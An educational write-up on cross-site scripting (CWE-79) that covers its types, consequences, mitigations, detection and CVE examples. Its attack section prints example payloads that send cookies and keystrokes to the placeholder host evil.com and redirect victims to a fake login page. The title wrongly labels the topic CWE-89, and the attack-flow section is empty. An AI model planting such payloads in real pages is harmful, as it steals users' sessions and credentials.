

# 🛡️ Cross-Site Scripting — CWE-89 Security Write-Up

> **CWE-79 | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')**  
> Likelihood of Exploit: **HIGH** | OWASP Top 10: **A03:2021 – Injection**

---

## 📌 What is Cross-Site Scripting (XSS)?

XSS is a client-side code injection vulnerability where an attacker tricks a web application into delivering **malicious scripts to other users' browsers**. The browser has no way to know the script isn't trustworthy — it came from the server — so it executes it with full access to cookies, session tokens, and the DOM.

Unlike SQL injection which targets the server, XSS targets **other users of the application**.

---

## ⚙️ The Three Types

| Type | How It Persists | Who Gets Hit |
|------|----------------|--------------|
| **Stored (Persistent)** | Malicious script saved in DB | Every user who loads that page |
| **Reflected (Non-Persistent)** | Script in URL/request, reflected back | User who clicks the crafted link |
| **DOM-Based** | Script injected via client-side JS | User whose browser processes the URL |

---

## 🗺️ Attack Flow



---

## 💥 Attack Scenarios

### 1. Stored XSS — Cookie Theft
```html
<!-- Attacker posts this as a comment -->
<script>
  fetch('https://evil.com/steal?c=' + document.cookie)
</script>
<!-- Every visitor's session cookie is now sent to the attacker -->
```

### 2. Reflected XSS — Phishing Link
```
https://victim-site.com/search?q=<script>document.location='https://evil.com/login-clone'</script>
<!-- Victim clicks link → gets redirected to fake login page -->
```

### 3. DOM-Based XSS
```javascript
// Vulnerable code
document.getElementById('output').innerHTML = location.hash.slice(1);

// Attacker crafts URL:
// https://victim.com/page#
```

### 4. Keylogger via XSS
```html
<script>
  document.addEventListener('keypress', function(e) {
    fetch('https://evil.com/log?k=' + e.key);
  });
</script>
```

---

## 🔥 Common Consequences

| Impact Area | Description |
|-------------|-------------|
| **Session Hijacking** | Steal cookies to impersonate the victim |
| **Credential Theft** | Inject fake login forms or keyloggers |
| **Defacement** | Alter page content seen by victims |
| **Malware Distribution** | Force victim's browser to download malware |
| **CSRF Amplification** | Use XSS to trigger forged requests |
| **Privilege Escalation** | If victim is admin, full app compromise |

---

## ✅ Mitigations

### ✔️ 1. Output Encoding *(Most Critical)*
Always encode user-supplied data before rendering it in HTML context:

```python
# Python — use markupsafe or html.escape
import html
safe = html.escape(user_input)  # & → &amp;  < → &lt;  > → &gt;
```

```javascript
// JavaScript — never use innerHTML with user data
element.textContent = userInput;   // ✅ safe
element.innerHTML   = userInput;   // ❌ dangerous
```

```java
// Java — OWASP Java Encoder
import org.owasp.encoder.Encode;
String safe = Encode.forHtml(userInput);
```

### ✔️ 2. Content Security Policy (CSP)
```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
```
CSP prevents inline scripts and restricts script sources — a critical defense-in-depth layer.

### ✔️ 3. HttpOnly & Secure Cookie Flags
```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict
```
`HttpOnly` makes cookies inaccessible to JavaScript — session theft via XSS becomes impossible even if a payload executes.

### ✔️ 4. Input Validation
- Validate type, length, format, and range of all inputs
- Use strict allowlists — reject anything that doesn't conform
- Never rely on input validation alone — output encoding is still required

### ✔️ 5. Use Modern Frameworks
Frameworks like **React**, **Angular**, and **Vue** escape output by default. Avoid dangerous escape hatches:
- React: avoid `dangerouslySetInnerHTML`
- Angular: avoid `bypassSecurityTrustHtml`
- Vue: avoid `v-html` with user data

### ✔️ 6. Sanitize Rich HTML Input
When users must submit HTML (e.g., rich text editors), use a trusted sanitizer:
```javascript
// DOMPurify (JavaScript)
const clean = DOMPurify.sanitize(dirtyHTML);
```

---

## 🔍 Detection Methods

| Method | Effectiveness |
|--------|--------------|
| Automated Static Analysis | High |
| Manual Code Review | High |
| Web App Scanner (DAST) | High |
| Browser DevTools Inspection | Moderate |
| Fuzzing / Payload Testing | Moderate |

---

## 📚 Real-World CVE Examples

| CVE | Description |
|-----|-------------|
| CVE-2024-4367 | Stored XSS in PDF.js — arbitrary JS execution in Firefox |
| CVE-2023-44270 | XSS in PostCSS via malformed CSS parsing |
| CVE-2022-24785 | Reflected XSS in Moment.js locale loading |
| CVE-2021-41184 | XSS in jQuery UI datepicker via `altField` option |
| CVE-2020-11022 | XSS in jQuery `html()` method with HTML passed to DOM |
| CVE-2019-11358 | XSS via jQuery `$.extend` prototype pollution |

---

## 🧩 Key Takeaways

- **Output encoding is the gold standard** — encode at the point of rendering, not at input
- XSS targets your *users*, not your server — the breach may be invisible to you
- `HttpOnly` cookies are a critical fallback — they limit XSS damage even when a payload fires
- CSP is defense-in-depth — not a replacement for proper encoding
- DOM-based XSS is often missed by scanners — requires manual review of client-side JS
- Modern frameworks help, but escape hatches (`dangerouslySetInnerHTML` etc.) reintroduce the risk

---

## 🔗 References

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP DOM-based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [CWE-79 Official Entry](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger XSS Labs](https://portswigger.net/web-security/cross-site-scripting)
- [CAPEC-86: XSS](https://capec.mitre.org/data/definitions/86.html)

---

*Based on CWE-79 from the MITRE Common Weakness Enumeration. Part of the CWE Top 25 Most Dangerous Software Weaknesses (2025).*
